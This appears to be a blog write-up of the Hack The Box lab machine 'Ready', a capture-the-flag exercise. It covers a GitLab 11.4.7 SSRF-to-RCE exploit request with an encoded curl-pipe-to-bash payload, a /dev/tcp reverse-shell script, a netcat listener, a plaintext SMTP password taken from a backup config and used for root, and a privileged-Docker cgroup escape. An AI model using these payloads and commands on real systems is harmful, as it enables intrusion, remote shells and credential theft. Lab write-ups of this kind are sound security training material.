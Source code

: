 Title:HTB: Ready
Date: 05-16-2021 09:20
category:security
tags:security, boot2root, HTB, gitlab, docker
meta:security, boot2root, HTB, gitlab, docker

<img class="align-left" src="/media/2021.05/ready_card.png" alt="Ready card" width="262">

This is a writeup about a retired HacktheBox machine:
[Ready](https://www.hackthebox.eu/home/machines/profile/304) published on
December 12 2020 by
[bertolis](https://www.hackthebox.eu/home/users/profile/27897)
This box is classified as a medium machine. This box implies an outdated gitlab
server, a clear text password in a backup file and a docker container.

<!-- PELICAN_END_SUMMARY -->

# User

## Recon

We start with an nmap scan. Only port 22 (SSH) and port 5080 (HTTP) are open.

    :::text
    # Nmap 7.91 scan initiated Sun Dec 13 03:40:16 2020 as: nmap -p- -sSV -oN nmap 10.129.29.192
    Nmap scan report for 10.129.29.192
    Host is up (0.014s latency).
    Not shown: 65533 closed ports
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
    5080/tcp open  http    nginx
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Sun Dec 13 03:40:48 2020 -- 1 IP address (1 host up) scanned in 31.28 seconds

## Web

The HTTP service is once again a gitlab (my latest rooted box is
[laboratory](/2021/05/htb-laboratory.html)) server. This time the version is 11.4.7. A Google
research "gitlab 11.4.7 exploit" lead us to a
[blog article about an RCE on gitlab during a CTF](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/)

Following the blog exploitation we end up with a request looking like the
following and can validate the RCE using a python server on our kalibox.

    :::text
    POST /projects HTTP/1.1
    Host: 10.129.29.192:5080
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.129.29.192:5080/projects/new
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 1073
    Origin: http://10.129.29.192:5080
    Connection: close
    Cookie: _gitlab_session=140270c33fe803d8ab11d0f9a85c45cf; sidebar_collapsed=false
    Upgrade-Insecure-Requests: 1

    utf8=%E2%9C%93&authenticity_token=%2BEHyUYosjkfZlzfMEpR8QFZ%2BWiJMAQQ%2BTiB3Wt%2FNK0fNBNX9EhAKd6VM6okCvVQ0fZ6HxSBzQdo%2Fx4Lfe4nDCw%3D%3D&project%5Bimport_url%5D=git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7C%63%75%72%6c%20%68%74%74%70%3a%2f%2f%31%30%2e%31%30%2e%31%34%2e%31%38%3a%38%30%30%30%2f%72%65%76%32%2e%73%68%20%7c%20%62%61%73%68%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf.git&project%5Bci_cd_only%5D=false&project%5Bname%5D=&project%5Bnamespace_id%5D=6&project%5Bpath%5D=ttreqqq139&project%5Bdescription%5D=&project%5Bvisibility_level%5D=0

We can even just manually import a git project using the following "git url":
`git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7Cxxxxxxxxx%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf.git` and replacing the payload `xxxxxxxxxxx` with our own URL encoded.

We send the following payload `curl http://10.10.14.18:8000/rev2.sh | bash`.

The content of rev2.sh is the following:

    :::bash
    #!/bin/bash
    bash -i >& /dev/tcp/10.10.14.18/4443 0>&1

We run a netcat listener to catch our reverse shell. We end up with a shell as
`git` that can read the user flag.

    :::text
    kali@kali:~$ nc -l -p 4443
    bash: cannot set terminal process group (485): Inappropriate ioctl for device
    bash: no job control in this shell
    git@gitlab:~/gitlab-rails/working$ id
    id
    uid=998(git) gid=998(git) groups=998(git)
    git@gitlab:/$ find / -name 'user.txt' 2>/dev/null
    find / -name 'user.txt' 2>/dev/null
    /home/dude/user.txt
    git@gitlab:/$ cat /home/dude/user.txt
    cat /home/dude/user.txt
    e1e30b052b6ec0670698805d745e7682

# Root

## Enumeration

We enumerate a few file and find the `/opt/backup/` directory which contain a few
files. The file `gitlab.rb` contain a smtp password.

    :::text
    git@gitlab:/opt/backup$ grep -i pass gitlab.rb
    grep -i pass gitlab.rb
    #### Email account password
    # gitlab_rails['incoming_email_password'] = "[REDACTED]"
    #     password: '_the_password_of_the_bind_user'
    #     password: '_the_password_of_the_bind_user'
    #   '/users/password',
    #### Change the initial default admin password and shared runner registration tokens.
    # gitlab_rails['initial_root_password'] = "password"
    # gitlab_rails['db_password'] = nil
    # gitlab_rails['redis_password'] = nil
        gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
    # gitlab_shell['http_settings'] = { user: 'username', password: 'password', ca_file: '/etc/ssl/cert.pem', ca_path: '/etc/pki/tls/certs', self_signed_cert: false}
    ##! `SQL_USER_PASSWORD_HASH` can be generated using the command `gitlab-ctl pg-password-md5 gitlab`
    # postgresql['sql_user_password'] = 'SQL_USER_PASSWORD_HASH'
    # postgresql['sql_replication_password'] = "md5 hash of postgresql password" # You can generate with `gitlab-ctl pg-password-md5 <dbuser>`
    # redis['password'] = 'redis-password-goes-here'
    ####! **Master password should have the same value defined in
    ####!   redis['password'] to enable the instance to transition to/from
    # redis['master_password'] = 'redis-password-goes-here'
    # geo_secondary['db_password'] = nil
    # geo_postgresql['pgbouncer_user_password'] = nil
    #     password: PASSWORD
    ###! generate this with `echo -n '$password + $username' | md5sum`
    # pgbouncer['auth_query'] = 'SELECT username, password FROM public.pg_shadow_lookup($1)'
    #     password: MD5_PASSWORD_HASH
    # postgresql['pgbouncer_user_password'] = nil

We need an interactive shell to be able to input a password, we use python for
that purpose and end up with a shell as root.

    :::text
    git@gitlab:~/gitlab-rails/working$ python3 -c 'import pty; pty.spawn("/bin/bash")'
    <orking$ python3 -c 'import pty; pty.spawn("/bin/bash")'
    git@gitlab:~/gitlab-rails/working$ su
    su
    Password: wW59U!ZKMbG9+*#h

    root@gitlab:/var/opt/gitlab/gitlab-rails/working# id
    id
    uid=0(root) gid=0(root) groups=0(root)

Nonetheless we cannot find any `root.txt` file. As you probably already guess or
notice we are in a docker container.

## Docker escape

We run [deepce](https://github.com/stealthcopter/deepce): Docker Enumeration, Escalation of Privileges and Container Escapes (DEEPCE)
We use a python server on our kalibox to transfer the script using `wget --recursive --no-parent http://10.10.14.18:8000`.
And we run it.

    :::text
    <SNIP>
    [+] Privileged Mode ......... Yes
    The container appears to be running in privilege mode, we should be able to access the
    raw disks and mount the hosts root partition in order to gain code execution.
    See https://stealthcopter.github.io/deepce/guides/docker-privileged.md
    <SNIP>

An other quick Google research allow us to find a [medium article](https://medium.com/better-programming/escaping-docker-privileged-containers-a7ae7d17f5a1)
to learn more about docker's privilege mode with a few command line to execute a
command on the system. We just replace the `echo "ps aux > $host_path/output" >> /cmd` line
with `echo "cat /root/root.txt > $host_path/output" >> /cmd` and grab the root
hash.

    :::text
    <SNIP>
    root@gitlab:/tmp/.plop# echo "cat /root/root.txt > $host_path/output" >> /cmd
    echo "cat /root/root.txt > $host_path/output" >> /cmd
    root@gitlab:/tmp/.plop# sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
    sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
    root@gitlab:/tmp/.plop# cat /output
    cat /output
    b7f98681505cd39066f67147b103c2b3

# Wrapping up

The box is not that hard (less than [laboratory](/2021/05/htb-laboratory.html)) and quit interesting
as the exploitation of the gitlab's SSRF and its upgrade to an RCE was really
interesting and detailed on the blog article.

